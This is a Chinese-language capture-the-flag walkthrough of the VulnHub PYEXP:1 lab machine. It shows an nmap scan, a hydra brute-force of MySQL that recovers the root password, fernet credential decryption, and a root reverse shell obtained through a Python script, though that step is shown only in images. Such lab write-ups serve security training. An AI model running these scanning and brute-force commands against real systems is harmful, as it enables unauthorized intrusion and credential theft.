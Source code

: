 ```yaml
---

title: Vulnhub 534 PYEXP-1

---
```


考点：hydra,python

靶机链接：<https://www.vulnhub.com/entry/pyexp-1,534/>
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| PYEXP: 1 | 10.0.2.27 |


## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.110
$ sudo nmap -v -A -p- $rip
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:af:6c:d1:26:94:dc:e5:1a:22:1a:64:4e:1c:34:a9 (RSA)
|   256 46:d2:8d:bd:2f:9e:af:ce:e2:45:5c:a6:12:c0:d9:19 (ECDSA)
|_  256 8d:11:ed:ff:7d:c5:a7:24:99:22:7f:ce:29:88:b2:4a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
|_sslv2: ERROR: Script execution failed (use -d to debug)
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolOld, Support41Auth, SupportsTransactions, IgnoreSigpipes, ODBCClient, IgnoreSpaceBeforeParenthesis, LongColumnFlag, ConnectWithDatabase, SupportsLoadDataLocal, InteractiveClient, Speaks41ProtocolNew, SupportsCompression, DontAllowDatabaseTableColumn, FoundRows, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: BwQo[X([tV0.5]X#A`>V
|_  Auth Plugin Name: mysql_native_password
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)

```

这就尴尬了，只有ssh和mysql

### 漏洞发现

先爆破mysql吧

```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt -f 10.0.2.27 mysql    
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.0.2.27:3306/
[3306][mysql] host: 10.0.2.27   login: root   password: prettywoman

```

![1](https://static.iihack.com/vulnhub/534/1.jpg)

使用在线[fernet算法解密](https://asecuritysite.com/encryption/ferdecode)

![2](https://static.iihack.com/vulnhub/534/2.jpg)

获得用户名密码

## 获得权限

使用获得的用户名密码登录成功

![3](https://static.iihack.com/vulnhub/534/3.jpg)

## 提权

看来利用点是在exp.py这里了

![4](https://static.iihack.com/vulnhub/534/4.jpg)

查看代码，构造python利用

![5](https://static.iihack.com/vulnhub/534/5.jpg)

成功接收root权限反弹shell
